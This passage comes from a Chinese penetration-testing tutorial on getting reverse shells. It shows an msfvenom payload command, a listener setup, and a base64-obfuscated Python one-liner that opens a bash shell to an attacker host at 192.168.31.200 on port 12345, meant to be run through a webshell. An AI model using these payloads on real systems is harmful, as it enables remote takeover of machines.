 ```
# root@kali:~# msfvenom -p cmd/unix/reverse_netcat lhost=1.1.1.1 lport=12345 R
```

```
**![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t01bc2936c36f38c0e9.png")**  

```

**2.5.3 msfvenom 使用实例**

（1） 开启攻击机监听

在攻击机上开启本地 TCP 12345 端口监听，准备监听机上的会话反弹，查看如下截图可以看到本地TCP 12345 端口监听已经开启。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t01ac576b7619c4c454.bmp")

（2） 获取python一句话

我们此时可以借助于MSF框架平台的msfvenom 工具自动生成一个python 反弹一句话，具体操作请参加如下截图。（当然这里的前提条件是靶机上安装有python环境，现在默认一般的linux发行版默认都安装有python环境。）

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t01f8abd9cc27aac7ca.png")

  

（3） 靶机上运行python一句话

```
python -c "exec('aW1wb3J0IHNvY2tldCAgICAgICAgLCBzdWJwcm9jZXNzICAgICAgICAsIG9zICAgICAgICA7ICBob3N0PSIxOTIuMTY4LjMxLjIwMCIgICAgICAgIDsgIHBvcnQ9MTIzNDUgICAgICAgIDsgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICAgICAgLCBzb2NrZXQuU09DS19TVFJFQU0pICAgICAgICA7ICBzLmNvbm5lY3QoKGhvc3QgICAgICAgICwgcG9ydCkpICAgICAgICA7ICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgICwgMCkgICAgICAgIDsgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgLCAxKSAgICAgICAgOyAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICAsIDIpICAgICAgICA7ICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik='.decode('base64'))"
```

```
直接将上面msfvenon 生成的 python 一句话复制到靶机webshell上运行即可，我这里为演示方便，直接贴了一张使用kali做为靶机运行的截图。  

```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t0179af6bcb10d0e584.bmp")

（4） 攻击监听接受反弹情况

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t017ffd2dfe6e119742.bmp")

  

**三、场景三**

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "t01706b47c2a010d896.png")

场景三其实应该是在使用shell环境获取的过程中遇到的问题孕育出来的，大家如果经常使用前各种方法进行虚拟终端环境获取的话，会发现存在一个问题，就是我们即使获取了目标虚拟终端控制权限，但是往往会发现交互性非常的差，就是发现这个虚拟回显信息与可交互性非常的差和不稳定，具体见情况有以下几个种。

**问题1：** 获取的虚拟终端没有交互性，我们想给添加的账号设置密码，无法完成。 
